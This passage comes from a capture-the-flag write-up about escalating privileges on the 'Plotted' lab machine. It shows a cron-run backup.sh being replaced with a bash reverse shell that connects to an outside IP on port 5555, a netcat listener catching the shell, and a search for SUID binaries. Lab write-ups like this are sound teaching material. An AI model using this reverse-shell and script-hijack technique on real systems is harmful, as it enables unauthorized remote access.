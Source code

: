 ### Vertical Privilege Escalation

So while enumerating the machine, found that there are two users, **ubuntu** and **plot_admin**. which means we have to somehow get to that user, in order to get to the **root**.

```bash
www-data@plotted:/$ ls -al /var/www/scripts/
total 12
drwxr-xr-x 2 www-data   www-data   4096 Oct 28 09:10 .
drwxr-xr-x 4 root       root       4096 Oct 28 10:26 ..
-rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28 09:10 backup.sh
www-data@plotted:/$
```

while enumerating the machine we have a directory named **scripts** under **/var/www/** which is owned by the user **www-data** which means we can replace that script with our own for getting a **reverse shell** back to us.

![](/assets/images/plottedcms/Pasted image 20220222144139.png)
here we can see that the script will run every minute in the system.

```bash
www-data@plotted:/var/www/scripts$ ls
backup.sh
www-data@plotted:/var/www/scripts$ rm backup.sh
rm: remove write-protected regular file 'backup.sh'? y
www-data@plotted:/var/www/scripts$ printf '#!/usr/bin/bash\nbash -c "bash -i >& /dev/tcp/10.8.82.14/5555 0>&1"' > backup.sh
www-data@plotted:/var/www/scripts$ chmod +x backup.sh
www-data@plotted:/var/www/scripts$
```

here we replaced the original **backup.sh** script with our own and get a reverse shell.

```bash
┌──(elliot@archlinux)-[~/data/plottedcms]-[192.168.225.72]-[git:(main) ✗]
└─$ nc -nvlp 5555
Connection from 10.10.12.199:56638
bash: cannot set terminal process group (1419): Inappropriate ioctl for device
bash: no job control in this shell
plot_admin@plotted:~$
```

![](/assets/images/plottedcms/Pasted image 20220222150454.png)

### Getting Root

After enumerating the machine for a while like checking for any suspicios or services, outdated packages or any sudo privileges we don't found anything interesting. so I went to find any **SUID** binaries.

```bash
plot_admin@plotted:~$ find / -type f -perm -4000 2>/dev/null
..........<snap>..........
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/fusermount
/usr/bin/at
/usr/bin/chsh
/usr/bin/umount
/usr/bin/doas
/usr/bin/newgrp
/usr/libexec/polkit-agent-helper-1
```